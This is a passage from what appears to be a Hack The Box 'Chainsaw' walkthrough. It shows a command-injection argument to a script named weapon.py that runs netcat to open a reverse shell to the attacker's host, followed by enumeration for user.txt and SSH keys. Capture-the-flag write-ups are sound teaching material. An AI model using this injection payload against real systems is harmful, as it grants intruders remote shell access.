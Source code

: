 <a class="image-popup">
![3ee3bf3f.png](/assets/images/posts/chainsaw-htb-walkthrough/3ee3bf3f.png)
</a>

Exactly one `ping` request is seen. I think I know what's going on here. Let's do it this way then.

```
# ./weapon.py '; nc 10.10.14.122 1234 -e /bin/bash'
```

<a class="image-popup">
![183b8df7.png](/assets/images/posts/chainsaw-htb-walkthrough/183b8df7.png)
</a>

Bam. A reverse shell appears!

## Low-Privilege Shell

Now that we have a low-privilege shell, it's time to find `user.txt`.

### Getting `user.txt`

If I have to guess, I would say that `user.txt` is in `bobby`'s home directory. Too bad I don't have access to it.

<a class="image-popup">
![d73f8a84.png](/assets/images/posts/chainsaw-htb-walkthrough/d73f8a84.png)
</a>

During enumeration of `administrator`'s account, I notice `pub` appears to be carrying all the SSH public keys belonging to `bobby` and the rest of the "users". They were apparently generated by `gen.py`, given that their last-modified dates were identical.

<a class="image-popup">
![96e36d39.png](/assets/images/posts/chainsaw-htb-walkthrough/96e36d39.png)
</a>
